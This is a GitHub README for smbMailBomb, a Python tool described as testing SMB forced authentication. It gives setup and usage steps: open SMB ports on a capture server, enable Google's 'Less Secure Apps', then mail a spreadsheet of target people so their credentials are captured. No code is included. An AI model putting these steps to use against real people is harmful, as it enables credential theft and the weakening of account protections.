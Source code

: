 # smbMailBomb
 A command line utility to test for SMB Forced Authentication

Set Up Capture Server
Ensure SMB ports 139 and 445 are open on your captuer server
Run your capture server.
Configure Google to allow the script
  In the Google Admin Panel:
  Click Security
  Enable Less Secure Apps
In the google account settings
  Click Security
  Allow Less Secure Apps
From the command line run smbMailBomb.py and enjoy your creds. 
Usage: python3 smbMailBomb2.py -e user@yourGoogleDomain.com -p yourGooglePassword -f path/to/targets.xlsx -ip captureServerIP
  -f path to target xlsx file
  -e your google business email
  -p your google password
  -ip your capture server IP
Requirments:
  pandas==0.23.4
  colorama==0.3.9
XLSX
Add your targets first name and email, following the template provided.
